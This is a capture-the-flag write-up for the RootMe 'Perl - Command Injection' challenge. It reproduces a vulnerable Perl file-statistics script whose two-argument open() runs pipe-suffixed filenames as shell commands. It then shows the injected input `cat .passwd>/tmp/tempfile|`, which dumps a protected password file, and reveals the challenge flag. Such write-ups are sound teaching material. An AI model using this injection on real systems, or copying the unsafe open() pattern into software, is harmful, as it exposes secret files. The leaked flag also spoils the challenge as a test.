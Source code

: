 ```yaml
---
title: RootMe Perl - Command Injection Writeup
date: 2023-10-05
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# Perl - Command Injection

In this challenge we have following perl script

```perl
#!/usr/bin/perl
 
delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
$ENV{'PATH'}='/bin:/usr/bin';
 
use strict;
use warnings;
 
main();
 
sub main {
    my ($file, $line) = @_;
 
    menu();
    prompt();
 
    while((my $file = <STDIN>)) {
        chomp $file;
 
        process_file($file);
 
        prompt();
    }
}
 
sub prompt {
    local $| = 1;
    print ">>> ";
}
sub menu {
    print "*************************\n";
    print "* Stat File Service    *\n";
    print "*************************\n";
}
 
sub check_read_access {
    my $f = shift;
 
    if(-f $f) {
        my $filemode = (stat($f))[2];
 
        return ($filemode & 4);
    }
 
    return 0;
}
 
sub process_file {
    my $file = shift;
    my $line;
    my ($line_count, $char_count, $word_count) = (0,0,0);
 
    $file =~ /(.+)/;
    $file = $1;
    if(!open(F, $file)) {
        die "[-] Can't open $file: $!\n";
    }
 
 
    while(($line = <F>)) {
        $line_count++;
        $char_count += length $line;
        $word_count += scalar(split/\W+/, $line);
    }
 
    print "~~~ Statistics for \"$file\" ~~~\n";
    print "Lines: $line_count\n";
    print "Words: $word_count\n";
    print "Chars: $char_count\n";
 
    close F;
}
```

We are interested in this lines

```perl
$file =~ /(.+)/;
$file = $1;
if(!open(F, $file)) {
    die "[-] Can't open $file: $!\n";
}
```

there is no any kind of validation of user input
and in perl function open works in a way that any filename with `|` postfix considered as a command to execute in shell
so we can pass in this program input like 

```shell
cat .passwd>/tmp/tempfile|
```

and then just read this file

```shell
cat /tmp/tempfile
```

and get flag `PerlCanDoBetterThanYouThink`